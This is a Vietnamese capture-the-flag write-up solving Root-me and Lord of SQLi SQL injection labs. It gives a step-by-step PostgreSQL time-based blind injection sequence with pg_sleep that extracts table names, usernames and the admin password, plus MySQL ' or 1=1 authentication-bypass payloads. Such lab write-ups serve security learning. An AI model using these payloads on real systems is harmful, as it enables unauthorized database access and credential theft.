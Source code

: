 # Challenge SQL Injection
## 1.Rootme:SQL injection - Time based
+   [Link challenge](http://challenge01.root-me.org/web-serveur/ch40/)
+   Ở đây đề bài là time-based nên mình thử inject một số trang:
![img](https://scontent.xx.fbcdn.net/v/t1.15752-9/329032973_3491653274396858_6283571348762962612_n.png?_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=wieAw4ChtbAAX9UsWaM&_nc_oc=AQn6HIN5BxM2LCpAmznCGP-rqAabZSj_Xk0CaO3z-li9cLk7Xb9VsX2ZfHsOzINxQhxOPxAYmblvAKZxxq8bsDm1&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTfBlETBpzedGQy5Si28ieZgiFidTfMM-f5PekpChKLiw&oe=640E4E89)
Thì mình phát hiện [http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1;select%20pg_sleep(10)--%20-](http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1;select%20pg_sleep(10)--%20-) bị delay có thể inject ở đây:

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/330602682_749066446450740_5553230616976262669_n.png?stp=dst-png_p206x206&_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=ijunKOJG3s8AX8naGUu&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQRa9qz1s-RnmMl_WtEGU4npTuh-0kHj5IEH1GLB549eQ&oe=6411B647)

Ở đây cơ sở dữ liệu được sử dụng `PostgreSQL`
Mình cần tìm password của admin thì mình cần tìm ra xem nó thuộc bảng nào.
Bài này mình test hình như nó filter đi dấu '' nên mình phải dùng chr()
**PostgreSQL**
```PostgreSQL
;Select case when(1=1) then pg_sleep(10) else sleep(0) end-- -
;Select case when((select length(table_name) from information_schema.tables limit 1 offset $x$)>$y$) 
then pg_sleep(10) else pg_sleep(0) end-- -
-- -> mình tìm length của các bảng

;Select case when((select substr(table_name,$y$,1) from information_schema.tables limit 1 offset $z$)=$chr(x)$) 
then pg_sleep(10) else pg_sleep(0) end-- -
-- -> mình tìm tên của các bảng

;Select case when((select length(column_name) from information_schema.columns limit 1 offset $y$)=$x$) 
then pg_sleep(10) else pg_sleep(0) end-- -
-- -> mình tìm length của các column trong bảng users

;Select case when((select length(column_name) from information_schema.columns limit 1 offset $y$)=$x$) 
then pg_sleep(10) else pg_sleep(0) end-- -
-- -> Tìm tên các column trong bảng users

;Select case when((select length(username) from users limit 1 offset $y$)=$x$) 
then pg_sleep(10) else pg_sleep(0) end-- -
-- -> Tìm tên các user trong bảng

;Select case when((select substr(username,$x$,1) from users limit 1 offset $y$)=chr($z$)) 
then pg_sleep(10) else pg_sleep(0) end-- -
-- -> Tìm giá trị các username trong bảng users

;Select case when((select length(password) from users limit 1 offset $y$)=$x$) 
then pg_sleep(10) else pg_sleep(0) end-- -
-- -> Tìm length password ứng với tài khoản admin

;Select case when((select substr(password,$x$,1) from users limit 1 offset $y$)=chr($z$)) 
then pg_sleep(10) else pg_sleep(0) end-- -
-- -> Tìm giá trị password ứng với tk admin
```

# 2.Gremlin
+ [Link challenge](https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php)

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/331160072_498202262477895_4608847307808283276_n.png?stp=dst-png_p206x206&_nc_cat=111&ccb=1-7&_nc_sid=aee45a&_nc_ohc=WVAqKrA6EksAX8LFNxG&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdRXtLQ7ALDBfyDsq0Hl3FsCgr2U3X0_j1eWL-HSoFAfvw&oe=64131D9D)

Ở đây mình thấy nó không filter `'' or` nên mình thử để payload:
```Mysql
?id=1' or 1=1-- -
```
![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/330670146_4509653449159040_8250095649946165562_n.png?stp=dst-png_p206x206&_nc_cat=102&ccb=1-7&_nc_sid=aee45a&_nc_ohc=Wq_x5FAy4WQAX-NrIgp&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTQM_fNUT1YKHGc6m7O9Qxq6pglk3Hz74rJ5jAGEIP56w&oe=641311E1)
# 3.Cobolt
+ [Link Challenge](https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php)

![url](https://scontent.xx.fbcdn.net/v/t1.15752-9/331077910_1234167760786070_6490793722676036467_n.png?stp=dst-png_s480x480&_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=PysLZFzymGQAX9FnQQx&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdSPqyslCQHNoYrRa7uA8pCvoaRHOXkTL8DuqqvhSYNOnA&oe=64132D8C)

Bài này mình thấy nó cũng không filter `'' or` nên mình thử payload:

![url](https://scontent.xx.fbcdn.net/v/t1.15752-9/330735631_592042309404956_5214444767209328104_n.png?stp=dst-png_s350x350&_nc_cat=111&ccb=1-7&_nc_sid=aee45a&_nc_ohc=blVbUacuAVMAX8lF-uM&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTw-pbdhmcTrNU1ph_OAIZKcKF7guqjIribbKfm3iGf-w&oe=64130B76)

thì ở đây kết quả `result['id']` không phải là `admin` mà là `rubiya`,sau đó mình có sắp xếp mảng để get xem `id=admin` có ở đầu không:
```Mysql
?id=1' or 1=1 order by id asc-- -
```

![url](https://scontent.xx.fbcdn.net/v/t1.15752-9/331136246_484645440545750_7630334647886607610_n.png?stp=dst-png_p206x206&_nc_cat=111&ccb=1-7&_nc_sid=aee45a&_nc_ohc=ajfEEvzc62wAX_RKls4&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdQIjfwPuAt_vo8HtLaKBigvWI-6qHeGudXSQcIuU3URWg&oe=64130849)
